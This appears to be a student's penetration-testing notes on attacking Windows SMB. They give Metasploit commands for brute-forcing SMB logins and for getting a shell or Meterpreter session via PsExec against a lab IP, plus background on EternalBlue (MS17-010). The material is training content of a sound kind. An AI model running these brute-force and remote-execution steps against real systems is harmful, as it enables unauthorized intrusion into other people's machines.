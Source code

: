 #### SMB Exploitation With PsExec 
+ In order to utilize <mark style="background: #D2B3FFA6;">PsExec</mark> to gain access to a Windows target, will need to identify legitimate user accounts and their respective passwords or password hashes 
+ Can be done by leveraging various tools and techniques, though most common will involve an <mark style="background: #ADCCFFA6;">SMB login brute-force attack</mark> 
+ Can narrow down our brute-force attack to only include <mark style="background: #FFF3A3A6;">common windows user accounts</mark> like:
	+ `Administrator` 
+ After we have obtained a legitimate user account and password, we use the credentials to authenticate via <mark style="background: #D2B3FFA6;">PsExec</mark> and <mark style="background: #ADCCFFA6;">execute arbitrary system commands or obtain a reverse shell</mark>

Can use <mark style="background: #FF5582A6;">msfconsole</mark> to automate the attack
+ will want to launch with `service postgresql start && msfconsole`
	+ because msfconsole uses a database that runs with postgresql 

Then will search <mark style="background: #FF5582A6;">smb_login</mark>
+ or `use auxiliary/scanner/smb/smb_login`
  + `set RHOSTS 10.3.19.6`
  + `set USER_FILE set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt` (Because we are brute forcing)
  + `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt` (Because we are brute forcing)
  + `set VERBOSE false` (to only show successful logins)

<mark style="background: #D2B3FFA6;">psexec</mark> is a <mark style="background: #FFF3A3A6;">windows utility so can not use it on a linux system</mark>
+ will need to use <mark style="background: #D2B3FFA6;">psexec.py</mark> instead so a python script can do it 
+ Can run with `psexec.py Administrator@10.3.19.6 cmd.exe`
	+ where are using the username: `Administrator`
	+ The IP is the target 
	+ and `cmd.exe` is executed because the goal is CLI access 
	+ will ask you for the `password`
+ It will then have CLI access 
	+ can use `whoami` to see privilege level 

To get a <mark style="background: #FF5582A6;">meterpreter</mark> session, can use `msfconsole`
+ can `search psexec` or `use exploit/windows/smb/psexec`
	+ <mark style="background: #FF5582A6;">NOTE</mark>: THIS IS RUNNING A MALICIOUS FILE ON THE TARGET SYSTEM UNLIKE THE PREVIOUS EXPLOIT, BE CAREFUL OF ANTI VIRUS
	+ `set RHOSTS 10.3.19.6`
	+ `set SMBUser Administrator` (where the username was got with brute-force)
	+ `set SMBPass qwertyuiop` (where the password was got with brute-force)

### Exploiting Windows MS17-010 SMB Vulnerability (Eternal Blue)

#### EternalBlue 
+ <mark style="background: #FF5582A6;">EternalBlue</mark> (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerability and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is apart of
+ <mark style="background: #FF5582A6;">EternalBlue</mark> exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability
	+ it was leaked to the public by a hacker group called the **Shadow Brokers** in 2017
+ <mark style="background: #FF5582A6;">EternalBlue</mark> takes advantage of a vulnerability in the <mark style="background: #ADCCFFA6;">Windows SMBv1 protocol</mark> that allows attackers to send specially crafted packets that allow arbitrary commands 
	+ can get a **reverse shell** or **meterpreter**
	+ Will also <mark style="background: #FFF3A3A6;">provide elevated access</mark>, no need for privilege escalation
